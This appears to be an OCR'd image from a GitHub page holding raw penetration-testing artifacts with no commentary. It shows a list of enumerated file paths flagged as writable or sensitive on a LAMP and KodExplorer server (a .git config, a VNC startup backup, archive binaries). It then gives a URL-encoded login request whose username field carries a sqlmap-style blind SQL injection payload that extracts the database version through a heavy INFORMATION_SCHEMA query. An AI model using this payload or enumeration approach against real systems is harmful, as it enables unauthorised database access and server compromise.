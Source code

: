 
```
/home/ubuntu/Downloads/lamp/software/httpd-2.4.58/support

/home/ubuntu/Downloads/lamp/lamp.log

Writable: /data/www/default/kod/data/temp/zipView/0ee70877530f9639ec4caa98f82ff96e8d1ad126.log
Writable: /data/www/default/kod/data/temp/zipView/0ee70877afc04cb6a3bdf5884808198695bb7692.log

/home/ubuntu/.vnc/xstartup.bak

/home/ubuntu/Downloads/lamp/.git/config

/data/www/default/kod/app/kod/archiveLib/bin
/data/www/default/kod/app/kod/archiveLib/bin/7z
/data/www/default/kod/app/kod/archiveLib/bin/7z.exe
/data/www/default/kod/app/kod/archiveLib/bin/rar
/data/www/default/kod/app/kod/archiveLib/bin/rar.exe

shared/nm-glib-aux/nm-random-utils.c
/dev/urandom
shared/nm-glib-aux/nm-secret-utils.c
shared/nm-glib-aux/nm-shared-utils.c
libnm-core/nm-keyfile-utils.c

```
username=%27%20AND%208011%3DIF%28%28ORD%28MID%28%28IFNULL%28CAST%28VERSION%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C4%2C1%29%29%3E48%29%2C%28SELECT%20COUNT%28%2A%29%20FROM%20INFORMATION_SCHEMA.COLUMNS%20A%2C%20INFORMATION_SCHEMA.COLUMNS%20B%2C%20INFORMATION_SCHEMA.COLUMNS%20C%29%2C8011%29--%20HULv&password=